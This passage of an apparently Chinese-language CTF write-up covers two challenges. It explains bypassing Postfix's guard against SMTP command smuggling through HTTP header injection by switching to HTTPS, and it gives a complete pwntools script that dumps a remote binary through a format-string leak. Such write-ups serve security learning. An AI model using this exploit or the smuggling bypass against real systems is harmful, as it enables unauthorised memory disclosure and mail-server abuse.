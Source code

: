   原因:

   ```
   Our mistake was missing the special case implemented in postfix:
   There is a hardening which targets exactly what we wanted to do - using HTTP request with injected headers to smuggle SMTP commands. The way to bypass this was to use https instead of http, because in such case the initial part of the request will actually be encrypted, and SMTP will ignore it, and the Host will be in plaintext so the server will receive nice set of SMTP commands. 
   简单来说，就是当我们使用http请求，并使用 http header注入 来注入SMTP命令的时候，会被拦截。可以使用 https， 因为 https 流量是加密过的，这样，SMTP会忽略该流量，当流量到达主机，会被解密，这时候SMTP就会收到一组漂亮的 SMTP 命令。
   ```

   结果:

   ![](/assets/ctfzone/TIM截图20180803235132.png)

# PWN

## easypwn_strings

dump.py:

```
from pwn import *

def conn():
    return remote('pwn-03.v7frkwrfyhsjtbpfcppnu.ctfz.one', 1234)

def dump(adr,frmt='p'):
    r.recvuntil('StrRemoveLastSymbols')
    r.recvuntil('\n')
    r.sendline('3')
    r.recvuntil(':')
    r.recvuntil('\n')

    leak_part = "|%19${}|".format(frmt)
    out = leak_part.ljust(4*10,"A")+"EOF_"+p32(adr)
    r.sendline(out)
    r.sendline('0')
    r.recvuntil('Result:')
    return r.recvuntil("|A")[:-2].split("|")[1]

start_addr = 0x8048750

while True:
    try:
        fd = open("dumped_file","a")
        r = conn()
        data = dump(start_addr,'s')
        print "|0x%08x|%s|" % (start_addr,data)
        if data == "(null)" or data == "":
            fd.write("\x00")
            start_addr += 1
        else:
            fd.write(data+"\x00")
            start_addr += len(data)+1
        fd.close()
        r.close()
    except Exception as e:
        print e
        print "[!] execption"
        break
```
